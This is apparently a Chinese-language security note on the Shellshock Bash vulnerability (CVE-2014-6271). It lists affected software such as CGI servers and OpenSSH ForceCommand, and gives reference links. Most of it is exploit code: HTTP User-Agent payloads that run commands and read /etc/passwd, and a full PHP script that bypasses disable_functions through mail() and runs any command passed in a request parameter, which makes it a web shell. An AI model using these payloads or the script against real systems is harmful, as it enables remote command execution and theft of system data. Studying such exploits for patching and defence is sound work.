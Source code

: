 ## 破壳漏洞
![](/images/破壳漏洞影响范围.png)
GNU Bash <= 4.3，此漏洞可能会影响到使用ForceCommand功能的OpenSSH sshd、使用mod_cgi或mod_cgid的Apache服务器、DHCP客户端、其他使用Bash作为解释器的应用等。

[web服务器和CGI的关系](https://blog.csdn.net/kobejayandy/article/details/11906505)
参考：
	- https://www.cnblogs.com/qmfsun/p/7591757.html
	- https://github.com/vulhub/vulhub/tree/master/bash/shellshock


![](491580-20170926162151276-378081397.png)
poc
```http
GET /victim.cgi HTTP/1.1
Host: 127.0.0.1:1235
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```
```
User-Agent: () { :;};a=`/bin/cat /etc/passwd`;echo "a: $a"
User-Agent: () { :;}; echo `/bin/cat /etc/passwd`
```


## php mail相关函数可利用此漏洞
poc
```php
<?php 
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions) 
# Google Dork: none 
# Date: 10/31/2014 
# Exploit Author: Ryan King (Starfall) 
# Vendor Homepage: http://php.net 
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror 
# Version: 5.* (tested on 5.6.2) 
# Tested on: Debian 7 and CentOS 5 and 6 
# CVE: CVE-2014-6271 

function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283 
   $tmp = tempnam(".","data"); 
   putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1"); 
   // In Safe Mode, the user may only alter environment variableswhose names 
   // begin with the prefixes supplied by this directive. 
   // By default, users will only be able to set environment variablesthat 
   // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty, 
   // PHP will let the user modify ANY environment variable! 
   mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail 
   $output = @file_get_contents($tmp); 
   @unlink($tmp); 
   if($output != "") return $output; 
   else return "No output, or not vuln."; 
} 
echo shellshock($_REQUEST["cmd"]); 
?>
```

imap_mail函数同样也可以